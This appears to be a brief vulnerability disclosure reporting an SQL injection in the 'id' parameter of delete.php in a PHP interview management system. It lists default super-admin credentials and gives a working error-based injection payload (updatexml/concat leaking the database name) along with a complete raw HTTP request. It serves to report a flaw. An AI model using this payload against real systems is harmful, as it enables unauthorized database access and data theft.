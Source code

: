 # Interview Management System v1.0 by janobe has SQL injection

BUG_Author: yuanqiu

Login account: janobe@janobe.com/janobe (Super Admin account)

vendors: https://www.sourcecodester.com/php/14585/interview-management-system-phpmysqli-full-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /interview/delete.php?action=deletecand&id=

Vulnerability location: /interview/delete.php?action=deletecand&id=, id

dbname =sourcecodester_interviewdb

[+] Payload: /interview/delete.php?action=deletecand&id=(updatexml(1,concat(0x7e,(select%20database()),0x7e),0)) // Leak place ---> id

```sql
GET /interview/delete.php?action=deletecand&id=(updatexml(1,concat(0x7e,(select%20database()),0x7e),0)) HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=fjhrjdpuej6edqv5haoadpj3lc
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/183243900-13713c71-39d3-4650-9ff7-ff27aafc563c.png)
